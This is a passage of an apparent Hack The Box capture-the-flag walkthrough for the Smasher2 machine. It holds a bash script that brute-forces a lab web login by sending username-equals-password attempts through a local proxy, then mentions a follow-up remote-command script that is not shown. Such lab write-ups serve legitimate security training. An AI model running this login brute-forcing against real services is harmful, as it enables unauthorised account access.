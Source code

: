 <div class="filename"><span>auth.sh</span></div>

~~~~bash
#!/bin/bash

HOST=wonderfulsessionmanager.smasher2.htb
SESS=$(mktemp -u)
USER=$1
PASS=$USER
PROXY=http://127.0.0.1:8080

die() {
  killall perl 2>/dev/null
}

curl -s \
     -c $SESS \
     -o /dev/null \
     http://$HOST/

RESULT="$(curl -s \
               -b $SESS \
               -H "Content-Type: application/json" \
               -d "{\"action\":\"auth\",\"data\":{\"username\":\"$USER\",\"password\":\"$PASS\"}}" \
               -x $PROXY \
               http://$HOST/auth)"

if grep -E ':true' <<<"$RESULT" &>/dev/null; then
  echo "[+] Username: $USER, Password: $PASS"
  echo "$RESULT"
  die
fi

# clean up
rm -rf $SESS
~~~~

<a class="image-popup">
![28bcbc94.png](/assets/images/posts/smasher2-htb-walkthrough/28bcbc94.png)
</a>

Damn. The username is Administrator? I got kicked hard in the balls man, this one!

We know the key is fixed from `auth.py`. Towards that end, I wrote one last script that parses the execution job results. The script takes in one argument: the remote command that you want to execute.

<div class="filename"><span>smasher2.sh</span></div>


[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/